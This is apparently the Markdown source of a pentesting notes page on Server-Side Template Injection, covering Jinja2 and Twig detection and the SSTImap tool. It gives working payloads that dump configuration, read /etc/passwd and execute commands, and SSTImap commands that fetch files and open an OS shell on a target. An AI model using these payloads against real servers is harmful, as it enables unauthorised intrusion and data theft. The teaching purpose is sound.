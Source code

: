 ```yaml
---
layout: default
title: SSTI
permalink: /Web/ssti/
---
```


# Server-Side Template Injection (SSTI)
A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses.
This generation is often based on user input, enabling the web application to respond to user input dynamically.
When an attacker can inject template code that is later rendered by the server, a Server-Side Template Injection vulnerability can occur.
Popular examples of template engines are Jinja and Twig.
## Templating
### Jinja2
Example:
{% raw %}
```
Hello {{ name }}!
```
{% rawend %}
It contains a single variable called `name`, which is replaced with a dynamic value during rendering.
For-loop over all elements in the `names` variable (if is like `names=["name", "name2", "name3"]`):
{% raw %}
```
{% for name in names %}
Hello {{ name }}!
{% endfor %}
```
{% endraw %}
## Confirming SSTI
The most effective way is to inject special characters with semantic meaning in template engines and observe the web application's behavior.
Example:
{% raw %}
```
${{<%[%'"}}%\.
```
{% endraw %}
## Identifying the Template Engine
We can utilize slight variations in the behavior of different template engines. We can use this decision tree by following the green sign in case of successful code execution and the red cross in case of the payload wasn't executed:
{% raw %}
```
${7*7}
├── ✅ a{*comment*}b
│   ├── ✅ Smarty
│   └── ❌ ${"z".join("ab")}
│       ├── ✅ Mako
│       └── ❌ Unknown
└── ❌ {{7*7}}
    ├── ✅ {{7*'7'}}
    │       ├── ✅  Jinja2
    │       ├── ✅  Twig
    │       └── ❌ Unknown
    └── ❌ Not vulnerable
```
{% endraw %}
*Note: There are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).
## Exploiting SSTI in Jinja2

### Information Disclosure
Payload to dump the entire web application configuration:
{% raw %}
```
{{ config.items() }}
```
{% endraw %}
Payload to dump all available built-in functions:
{% raw %}
```
{{ self.__init__.__globals__.__builtins__ }}
```
{% endraw %}
### Local File Inclusion (LFI)
{% raw %}
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% endraw %}
### Remote Code Execution (RCE)
We can use functions provided by the os library, such as system or popen. However, if the web application has not already imported this library, we must first import it by calling the built-in function import:
{% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}
## Exploiting SSTI in Twig
### Information Disclosure
Payload to get information about the current template:
{% raw %}
```
{{ _self }}
```
{% endraw %}
### Local File Inclusion (LFI)
The PHP web framework Symfony defines additional Twig filters. One of these filters is file_excerpt and can be used to read local files:
{% raw %}
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
{% endraw %}
### Remote Code Execution (RCE)
{% raw %}
```
{{ ['id'] | filter('system') }}
```
{% endraw %}
## Tools of the Trade
Popular tools for identifying and exploiting SSTI vulnerabilities are [tplmap](https://github.com/epinna/tplmap) and [SSTImap](https://github.com/vladko312/SSTImap).
### SSTImap
```
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```
To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
```
python3 sstimap.py -u http://$ip/index.php?name=test
```
We can download a remote file to our local machine using the `-D` flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -D '/etc/passwd' './passwd'
```
We can execute a system command using the -S flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -S id
```
Alternatively, we can use --os-shell to obtain an interactive shell:
```
python3 sstimap.py -u http://$ip/index.php?name=test --os-shell
```
